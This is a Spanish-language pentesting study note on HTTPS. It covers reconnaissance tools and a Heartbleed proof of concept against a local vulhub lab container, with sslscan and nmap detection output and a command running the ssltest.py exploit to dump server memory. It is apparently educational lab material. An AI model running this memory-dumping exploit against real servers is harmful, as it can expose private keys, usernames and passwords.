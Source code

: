 
**HTTPS** (**Hypertext Transfer Protocol Secure**) es una **versión segura** de HTTP ([[80-http]]) que utiliza SSL / TLS para cifrar la comunicación entre el cliente y el servidor. Utiliza el puerto 443 por defecto. La principal diferencia entre HTTP y HTTPS es que HTTPS utiliza una capa de seguridad adicional para cifrar los datos, lo que los hace más seguros para la transferencia.

# Reconocimiento

A la hora de aplicar reconocimiento sobre una web, al igual que con [[80-http]], comenzamos con [[whatweb]] ó [[wappalizer]], para tratar de encontrar gestores de contenido ([[CMS]]) ó tecnologías que utilice la web. También es interesante echar un ojo al *certificado ssl* de la página, se puede hacer manualmente, *clickando* en *ver certificado* ó, con herramientas como [[sslyze]] ó [[sslscan]].

# POC

## Heartbleed

[[Heartbleed]] es una vulnerabilidad de seguridad que afecta a la biblioteca OpenSSL y permite a los atacantes acceder a la memoria de un servidor vulnerable. Si un servidor web es vulnerable a Heartbleed y lo detectamos a través de estas herramientas, esto significa que un atacante podría potencialmente acceder a información confidencial, como claves privadas, nombres de usuario y contraseñas, etc...

Utilizaremos el contenedor del siguiente [repo](https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160).

Si tratamos de acceder, solo veremos una frase que dirá `Heartbleed test`:

```bash
https://127.0.0.1:8443
```

Vamos a lanzar [[sslscan]]:

```bash
sslscan 127.0.0.1:8443
```
```sslscan
[...]
  Heartbleed:
TLSv1.2 vulnerable to heartbleed
TLSv1.1 vulnerable to heartbleed
TLSv1.0 vulnerable to heartbleed
[...]
```

Vemos entre otras cosas, que es sensible a [[Heartbleed]]. Podríamos también haber lanzado el script de [[nmap]] `ssl-heartbleed.nse`:

```bash
nmap --script ssl-heartbleed -p8443 127.0.0.1
```
```nmap
PORT     STATE SERVICE
8443/tcp open  https-alt
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
[...]
```
Vamos a ejecutar el exploit `ssltest.py` para dumpear info de la memoria, como habrá gran cantidad de bloques vacíos, concatenamos un [[grep]] para que no se muestren dichas líneas.

```bash
sudo python3 ssltest.py 127.0.0.1 -p 8443 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
```

En ocasiones, la info leída puede contener datos sensibles.